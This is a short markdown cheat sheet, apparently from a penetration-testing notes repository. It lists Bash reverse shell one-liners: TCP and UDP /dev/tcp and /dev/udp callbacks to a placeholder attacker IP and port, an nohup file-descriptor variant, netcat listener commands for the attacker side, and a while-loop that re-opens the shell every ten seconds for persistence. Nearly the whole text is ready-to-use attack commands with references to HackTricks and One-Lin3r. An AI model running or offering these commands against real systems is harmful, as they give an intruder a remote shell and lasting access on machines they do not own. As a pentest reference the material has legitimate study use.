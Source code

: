 # Bash

## 01 - TCP Method

- Target

```
$ /bin/bash -i >& /dev/tcp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/tcp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

- Attacker

```
user@pentestos:~$ nc -lnvp <LPORT>
```

## 02 - UDP Method

- Target

```
$ /bin/bash -i >& /dev/udp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/udp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

- Attacker

```
user@pentestos:~$ nc -luvp <LPORT>
```

## 03 - Persistent Callback Shell

- In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/bash -c /path/to/shell; sleep 10; done

$ while true; do /bin/bash -i >& /dev/<protocol>/<IP>/<LPORT> 0>&1; sleep 10; done
```

---
## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)